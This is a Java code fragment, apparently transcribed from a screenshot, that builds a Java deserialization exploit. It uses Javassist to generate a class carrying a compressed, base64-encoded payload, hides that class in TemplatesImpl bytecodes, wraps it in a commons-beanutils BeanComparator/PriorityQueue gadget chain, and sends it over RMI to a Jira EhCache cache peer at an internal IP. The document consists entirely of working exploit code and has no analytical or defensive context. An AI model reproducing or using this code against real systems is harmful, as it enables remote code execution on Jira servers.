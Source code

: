 ```java
        ctClass = pool.get("com.myproject.temp.ClassLoaderTemplate");
        ctClass.setName(ctClass.getName() + System.nanoTime());
        ByteArrayOutputStream outBuf = new ByteArrayOutputStream();
        GZIPOutputStream gzipOutputStream = new GZIPOutputStream(outBuf);
        gzipOutputStream.write(ctBytes);
        gzipOutputStream.close();
        String content = "b64=\"" + Base64.encodeBase64String(outBuf.toByteArray()) + "\";";
        ctClass.makeClassInitializer().insertBefore(content);
        ctClass.setSuperclass(superC);
        ctClass.writeFile();
        byte[] classBytes = ctClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field f = templates.getClass().getDeclaredField("_name");
        f.setAccessible(true);
        f.set(templates,"123");

        Field f1 = templates.getClass().getDeclaredField("_bytecodes");
        f1.setAccessible(true);
        f1.set(templates,targetByteCodes);

        Field f2 = templates.getClass().getDeclaredField("_class");
        f2.setAccessible(true);
        f2.set(templates,null);

        PriorityQueue<Object> queue = new PriorityQueue<Object>(2);
        queue.add(1);
        queue.add(1);
        Constructor constructor = Class.forName("org.apache.commons.beanutils.BeanComparator").getDeclaredConstructor();
        BeanComparator comparator = (BeanComparator) constructor.newInstance();
        Field f3 = Class.forName("org.apache.commons.beanutils.BeanComparator").getDeclaredField("property");
        f3.setAccessible(true);
        f3.set(comparator,"outputProperties");
        Field f4 = queue.getClass().getDeclaredField("comparator");
        f4.setAccessible(true);
        f4.set(queue,comparator);
        Field f5 = queue.getClass().getDeclaredField("queue");
        f5.setAccessible(true);
        Object[] queueArray = (Object[]) f5.get(queue);
        queueArray[0] = templates;

        Serializable payload = (Serializable) queue;
        RMICachePeer_Stub rmiCachePeer_stub = (RMICachePeer_Stub) Naming.lookup("rmi://10.1.1.13:40001/com.atlassian.jira.index.property.CachingPluginIndexConfigurationManager.cacheByEntityKey");
        rmiCachePeer_stub.getQuiet(payload);
    }
}

```